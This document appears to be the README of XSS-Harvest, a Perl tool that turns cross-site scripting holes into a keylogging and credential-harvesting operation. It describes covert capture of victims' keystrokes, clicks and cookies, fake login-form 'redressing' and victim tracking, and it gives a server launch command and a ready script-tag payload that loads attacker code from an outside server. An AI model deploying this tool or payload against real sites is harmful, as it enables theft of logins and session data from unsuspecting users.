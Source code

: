 # XSS-Harvest
0.2.x
by Geoff Jones - 0x90.co.uk
http://www.0x90.co.uk/2011/07/harvesting-cross-site-scripting-xss.html

## About
XSS-Harvest is multi-threaded pre-forking web server written in Perl, and requires no dependencies other than a couple of common Perl modules; you do not need a web server or database to use this tool. Before going into the detail, I'll list the high level functionality below:

* Infection script adds relevant event listeners (keystrokes, onload() and mouse clicks) to the vulnerable page and sets up communication with the XSS-Harvest server.
* Any key entered will be sent covertly to the server.
* Any mouse click performed will be analysed and the data covertly sent to the server.
* Optionally 'redress' the vulnerable page to display a different page on the same subdomain - e.g. a login form.
* If redressing the victim's browser, allow subsequently loaded pages to be also 'infected' - assuming they don't break the same-origin policy (i.e. they're on the same subdomain).
* Keeps track of victims for the lifetime of the XSS-Harvest cookie (future visits are recognised as a returning victim).
* Each victim has a separate history file containing all events, cookies and keystrokes. 
* Server console displays real time data received (due to multi-threaded nature, keystrokes are displayed as '.' characters to avoid confusion).
* Tested in IE6-9 (reflected XSS protection in IE9 will limit exploitation to stored XSS only in most cases), FF5, Chrome and various mobile browsers (Safari and Android). Please let me know your success with other browsers.
* Overcomes browser oddities, such as Internet Explorer throttling requests to the same URL when exfiltrating keystrokes.

## Dependancies
Requires the following dependencies:
HTTP::Server::Simple::CGI, Digest::MD5, Time::Local, Getopt::Std, Net::Server::PreFork

sudo apt-get install libhttp-server-simple-perl
sudo apt-get install libdigest-md5-file-perl
sudo apt-get install libtime-local-perl
sudo apt-get install libnet-server-perl

## Usage
Start server (with redress:)

* ./xss-harvest.pl -l -r http://vulnerablepage.local/login.html

XSS:

* \<script src="http://\<serverip\>:\<serverport\>/i"\>\</script\>
